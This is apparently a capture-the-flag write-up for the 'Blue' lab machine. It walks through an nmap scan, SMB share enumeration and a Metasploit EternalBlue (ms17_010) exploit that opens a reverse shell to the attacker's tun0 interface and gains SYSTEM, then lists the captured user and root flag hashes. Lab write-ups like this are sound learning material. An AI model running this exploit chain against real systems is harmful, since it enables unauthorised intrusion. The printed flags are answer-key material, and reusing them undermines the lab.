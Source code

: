# Blue 
## IP 
> 10.10.10.40

## nmap scan

```
nmap -T4 -p- -A 10.10.10.40 -Pn
```

```a
Nmap scan report for 10.10.10.40
Host is up (0.061s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:

Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -17m53s, deviation: 34m37s, median: 2m04s
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-30T03:47:25+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-30T02:47:26
|_  start_date: 2021-07-30T02:42:31

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   112.12 ms 10.10.16.1
2   33.63 ms  10.10.10.40
```

## System Info 
> OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
 Computer name: haris-PC

## Open Ports
       

> 445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
> 
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn

Both SMB 


> 135/tcp   open  msrpc        Microsoft Windows RPC

RPC

## rcpinfo

```rpcinfo -p 10.10.10.40```

> 10.10.10.40: RPC: Remote system error — Connection refused
## smbclient

```
smbclient -L \\\\10.10.10.40\\
```

![[Pasted image 20210729225254.png]]

IPC$ ```smbclient \\\\10.10.10.40\\IPC$``` Empty

ADMIN$ ```smbclient \\\\10.10.10.40\\ADMIN$``` Access Denied 

C$ ```smbclient \\\\10.10.10.40\\C$``` Access Denied 

Users ```smbclient \\\\10.10.10.40\\Users``` Rabbit Hole

Share ```smbclient \\\\10.10.10.40\\Share``` Empty

## Metasploit 
Tried finding SMB version, I did not find any new information 

I looked online for "windows 7 professional sp1 6.1 smb exploit" and found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

I tried the exploit and set the options and was able to create a shell 

```
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.10.10.40
set lhost tun0
run
```

## Post Exploitation Information

```getuid``` Server username: NT AUTHORITY\SYSTEM == We are root

```sysinfo```

![[Pasted image 20210729230442.png]]


#### Finding user.txt

```
cd c:\
cd Users
cd haris
cd Desktop
type user.txt
```

>
4c546aea7dbee75cbd71de245c8deea9

#### Finding root.txt

```
cd c:\
cd Users
cd Administrator
cd Desktop
type root.txt
```

>
ff548eb71e920ff6c08843ce9df4e717